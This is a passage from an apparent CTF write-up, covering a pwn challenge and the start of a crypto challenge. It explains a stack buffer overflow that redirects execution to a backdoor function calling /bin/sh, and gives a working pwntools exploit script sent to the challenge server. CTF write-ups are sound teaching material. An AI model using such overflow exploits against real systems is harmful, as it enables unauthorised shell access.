 ```
    printf("This is not the password");
  }
  return;
}

void backdoor(void)

{
  system("/bin/sh");
  return;
}
```

Our basic goal here is to overflow the buffer local_48 and overwrite the return address
to point to backdoor(). We can see that the buffer is 60-bytes in size but we probably need to
put a few more bytes to overwrite to $rip. Through testing with gdb I found the final value to be 72-bytes.
All that's left is to craft our payload and send it to the server running the binary.

```
from pwn import *

r = remote('pwn.chal.csaw.io', 5000)

# Add junk data
payload = b'a'*72

# Add backdoor() function address
payload += p64(0x401172)

r.recvuntil(b'Enter the password to get in:')
r.sendline(payload)
r.interactive()
```

After the exploit runs, all that's left is to issue a cat command to read flag.txt.

&nbsp;

## **Crypto**

### **Gotta Decrypt Them All**

```
Can you decrypt them all?
```

To start off this challenge we are only given an address and port to netcat to.
Let's see what happens.

![Morse Code](/assets/csawQuals/catch1.png)